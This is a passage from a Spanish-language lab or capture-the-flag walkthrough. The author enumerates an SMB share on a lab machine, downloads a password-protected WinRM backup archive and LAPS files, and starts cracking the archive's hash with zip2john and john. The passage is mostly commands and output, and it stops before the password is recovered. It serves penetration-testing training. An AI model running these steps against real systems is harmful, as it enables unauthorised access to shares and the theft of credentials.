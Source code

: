 ~~~bash
smbclient -U 'asd' //10.10.11.152/Shares
Password for [WORKGROUP\asd]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Oct 25 11:39:15 2021
  ..                                  D        0  Mon Oct 25 11:39:15 2021
  Dev                                 D        0  Mon Oct 25 15:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 11:48:42 2021

                6367231 blocks of size 4096. 1287617 blocks available
~~~
Como se puede ver, se tienen dos carpetas de la cual Dev es el mas interesante, pero como siempre hago, descargo todo lo que veo para ver si puedo encontrar algo de información que me podría ayudar mas adelante.
~~~
smb: \> cd Dev\
lssmb: \Dev\> ls
  .                                   D        0  Mon Oct 25 15:40:06 2021
  ..                                  D        0  Mon Oct 25 15:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 11:46:42 2021

                6367231 blocks of size 4096. 1272260 blocks available
smb: \Dev\> get winrm_backup.zip 
getting file \Dev\winrm_backup.zip of size 2611 as winrm_backup.zip (1.7 KiloBytes/sec) (average 1.7 KiloBytes/sec)
smb: \Dev\> cd ..
smb: \> cd HelpDesk\
lsmb: \HelpDesk\> ls
  .                                   D        0  Mon Oct 25 11:48:42 2021
  ..                                  D        0  Mon Oct 25 11:48:42 2021
  LAPS.x64.msi                        A  1118208  Mon Oct 25 10:57:50 2021
  LAPS_Datasheet.docx                 A   104422  Mon Oct 25 10:57:46 2021
  LAPS_OperationsGuide.docx           A   641378  Mon Oct 25 10:57:40 2021
  LAPS_TechnicalSpecification.docx      A    72683  Mon Oct 25 10:57:44 2021

                6367231 blocks of size 4096. 1270183 blocks available
smb: \HelpDesk\> mget *
Get file LAPS.x64.msi? y
getting file \HelpDesk\LAPS.x64.msi of size 1118208 as LAPS.x64.msi (348.9 KiloBytes/sec) (average 236.6 KiloBytes/sec)
Get file LAPS_Datasheet.docx? y
getting file \HelpDesk\LAPS_Datasheet.docx of size 104422 as LAPS_Datasheet.docx (66.4 KiloBytes/sec) (average 194.2 KiloBytes/sec)
Get file LAPS_OperationsGuide.docx? y
getting file \HelpDesk\LAPS_OperationsGuide.docx of size 641378 as LAPS_OperationsGuide.docx (326.9 KiloBytes/sec) (average 225.7 KiloBytes/sec)
Get file LAPS_TechnicalSpecification.docx? y
getting file \HelpDesk\LAPS_TechnicalSpecification.docx of size 72683 as LAPS_TechnicalSpecification.docx (50.9 KiloBytes/sec) (average 199.9 KiloBytes/sec)
smb: \HelpDesk\> exit
~~~
De esa forma se obtuvieron archivos que pueden ser interesantes para la explotación de la maquina.
### Ingreso con claves secretas
Al intentar leer el contenido de "winrm_backup.zip" se puede notar que esta pide una contraseña, por lo que se utiliza la herramienta de john para sacar el hash y poder descifrarlo con el mismo john.
~~~bash
zip2john winrm_backup.zip > hash_winrmzip
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8

sudo john hash_winrmzip --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
~~~